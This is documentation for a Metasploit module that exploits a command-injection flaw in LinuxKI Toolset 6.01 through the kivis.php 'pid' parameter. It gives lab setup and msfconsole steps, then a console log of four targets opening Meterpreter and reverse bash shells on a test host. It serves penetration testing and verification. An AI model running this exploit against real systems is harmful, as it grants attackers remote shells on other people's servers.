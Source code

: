 ## Vulnerable Application
LinuxKI Toolset <= 6.01

This module exploits a vulnerability in LinuxKI Toolset <= 6.01 which allows remote code execution.
The `kivis.php` `pid` parameter received from the user is sent to the `shell_exec` function, resulting in security vulnerability.

To test this application, you need to download the version 6.01 [here](https://github.com/HewlettPackard/LinuxKI/blob/v6.0-1/Dockerfile).
Do not forget to change [this URL](https://raw.githubusercontent.com/HewlettPackard/LinuxKI/master/rpms/linuxki-6.0-1.noarch.rpm) inside
the Dockerfile with [this one](https://github.com/HewlettPackard/LinuxKI/raw/v6.0-1/rpms/linuxki-6.0-1.noarch.rpm).

## Verification Steps
1. Install the application
2. Start msfconsole
3. Do: ```use exploit/linux/http/linuxki_rce```
4. Do: ```show TARGETS```
5. Do: ```set TARGET #```
6. Do: ```set RHOSTS```
7. Do: ```set LHOST```
8. Do: ```run```
9. You should get a shell.

## Options
### WritableDir

A writable directory file system path. (default: `/tmp`)

### ForceExploit

Override check result.

## Scenarios
### LinuxKI Toolset v6.01 on CentOS 7.8
```
msf5 > use exploit/linux/http/linuxki_rce
msf5 exploit(linux/http/linuxki_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)
   1   Automatic (PHP Dropper)
   2   Automatic (Unix In-Memory)
   3   Automatic (Linux Dropper)


msf5 exploit(linux/http/linuxki_rce) > set rhosts 192.168.1.43
rhosts => 192.168.1.43
msf5 exploit(linux/http/linuxki_rce) > set rport 32769
rport => 32769
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (PHP In-Memory) target
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.1.43
[*] Meterpreter session 1 opened (192.168.1.43:4444 -> 192.168.1.43:53126) at 2020-06-07 20:27:10 +0300

meterpreter > sysinfo
Computer    : 36503ef4f463
OS          : Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.43 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(linux/http/linuxki_rce) > set target 1
target => 1
msf5 exploit(linux/http/linuxki_rce) > unset payload
Unsetting payload...
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (PHP Dropper) target
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.1.43
[*] Meterpreter session 2 opened (192.168.1.43:4444 -> 192.168.1.43:53133) at 2020-06-07 20:27:52 +0300
[!] This exploit may require manual cleanup of '/tmp/kB4gJoH4xozwDdUva6tjqt.php' on the target

meterpreter > sysinfo
Computer    : 36503ef4f463
OS          : Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.43 - Meterpreter session 2 closed.  Reason: User exit
msf5 exploit(linux/http/linuxki_rce) > set target 2
target => 2
msf5 exploit(linux/http/linuxki_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (Unix In-Memory) target
[*] Sending payload...
[*] Command shell session 3 opened (192.168.1.43:4444 -> 192.168.1.43:53141) at 2020-06-07 20:29:56 +0300

uname -a
Linux 36503ef4f463 4.19.76-linuxkit #1 SMP Fri Apr 3 15:53:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.1.43 - Command shell session 3 closed.
msf5 exploit(linux/http/linuxki_rce) > set target 3
target => 3
msf5 exploit(linux/http/linuxki_rce) > unset payload
Unsetting payload...
msf5 exploit(linux/http/linuxki_rce) > run

[*] Started reverse TCP handler on 192.168.1.43:4444
[*] Executing Automatic (Linux Dropper) target
[*] Sending payload...
[*] Sending stage (980808 bytes) to 192.168.1.43
[*] Meterpreter session 4 opened (192.168.1.43:4444 -> 192.168.1.43:53146) at 2020-06-07 20:31:23 +0300
[!] This exploit may require manual cleanup of '/tmp/ag6G4ssIKEpH3lDyL.php' on the target

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : CentOS 7.8.2003 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.2 - Meterpreter session 4 closed.  Reason: User exit
msf5 exploit(linux/http/linuxki_rce) >
```
